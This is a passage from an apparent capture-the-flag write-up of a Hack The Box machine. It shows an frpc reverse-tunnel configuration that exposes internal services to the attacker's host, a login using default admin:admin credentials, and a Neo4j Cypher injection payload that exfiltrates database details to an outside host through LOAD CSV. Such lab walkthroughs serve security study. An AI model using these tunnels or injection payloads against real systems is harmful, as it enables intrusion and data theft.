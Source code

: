 Now I will run the "exposer" app on the server from user `www-data`, it requires a config file `frpc.ini`:
```text
[common]
server_addr = 10.10.14.3
server_port = 7000

[aa]
type = tcp
local_ip = 127.0.0.1
local_port = 3000
remote_port = 3000

[bb]
type = tcp
local_ip = 127.0.0.1
local_port = 8001
remote_port = 8001

[cc]
type = tcp
local_ip = 127.0.0.1
local_port = 7474
remote_port = 7474
```

Now I can run the app:
```bash
www-data@only4you:~/only4you.htb$ nohup ./frpc -c frpc001.ini &
nohup ./frpc -c frpc001.ini &
[1] 3558
www-data@only4you:~/only4you.htb$ 2023/08/17 02:14:45 [I] [root.go:220] start frpc service for config file [frpc001.ini]
2023/08/17 02:14:45 [I] [service.go:301] [99ab7b3792eb61fe] login to server success, get run id [99ab7b3792eb61fe]
2023/08/17 02:14:45 [I] [proxy_manager.go:150] [99ab7b3792eb61fe] proxy added: [aa bb cc]
2023/08/17 02:14:45 [I] [control.go:172] [99ab7b3792eb61fe] [aa] start proxy success
2023/08/17 02:14:45 [I] [control.go:172] [99ab7b3792eb61fe] [bb] start proxy success
2023/08/17 02:14:45 [I] [control.go:172] [99ab7b3792eb61fe] [cc] start proxy success
```

Now we can access multiple pages:

{{< limg "/i/2023-08-16_22-16.png" "Login app" >}}
{{< limg "/i/2023-08-16_22-17.png" "Git repos hosting" >}}
{{< limg "/i/2023-08-16_22-17_1.png" "Neo4j dashboard" >}}

So the webapp running on port `8001` has a default user/password: `admin:admin`. In there we can see a search page which is vulnerable to SQLi for Neo4j:
{{< limg "/i/2023-08-16_22-27.png" "SQLi" >}}
We can get the SQLi from https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j
```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```
